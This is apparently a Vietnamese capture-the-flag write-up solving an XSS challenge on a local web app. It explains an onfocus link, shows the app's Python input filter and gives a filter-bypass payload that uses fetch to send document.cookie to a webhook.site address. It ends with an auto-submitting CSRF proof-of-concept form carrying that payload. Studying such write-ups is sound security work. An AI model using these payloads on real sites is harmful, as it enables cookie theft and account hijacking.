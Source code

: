 Challenge cho mình một trang web như sau

![image](https://hackmd.io/_uploads/rkPehLQoye.png)

![image](https://hackmd.io/_uploads/SyGb28Xjkl.png)

Ok nó chỉ hiện text thôi nhưng mà mình đọc devtool thì thấy chữ hello là một tag a và khi focus vào thì mình sẽ đi đến một trang web nào đó.

![image](https://hackmd.io/_uploads/rkI12x4jke.png)

Lúc làm bài này thì mình không nghĩ đến tận dụng thằng onfocus :) Nhưng mà nó sẽ đơn giản như thế này

```\";alert(1)//```

Payload trên sẽ trigger một cái alert khi mình focus cụ thể là click vào. 

![image](https://hackmd.io/_uploads/BkIpJZ4jyg.png)

Ok và mình xác nhận trang web có thể XSS. Nhưng có một vấn đề payload của ta sẽ bị filter nghiêm ngặt.

```python
def sanitize_input(input_string):
    input_string = input_string.replace('<', '')
    input_string = input_string.replace('>', '')
    input_string = input_string.replace('\'', '')
    input_string = input_string.replace('&', '')
    input_string = input_string.replace('"', '\\"')
    input_string = input_string.replace(':', '')
    return input_string
```

Không sao chúng ta có thể bypass như sau và lấy được cookie ez

```\";fetch(`//webhook.site/4e8ba4a0-ce61-41ca-b16f-802804f6f5a2/?`+document.cookie) //```



![image](https://hackmd.io/_uploads/rJ4PDWNiyl.png)

Từ request đó ta có thể tạo một POC để report

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://127.0.0.1:5000/your-name" method="POST">
      <input type="hidden" name="name" value="&#92;&quot;&#59;fetch&#40;&#96;&#47;&#47;webhook&#46;site&#47;4e8ba4a0&#45;ce61&#45;41ca&#45;b16f&#45;802804f6f5a2&#47;&#63;&#96;&#43;document&#46;cookie&#41;&#32;&#47;&#47;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
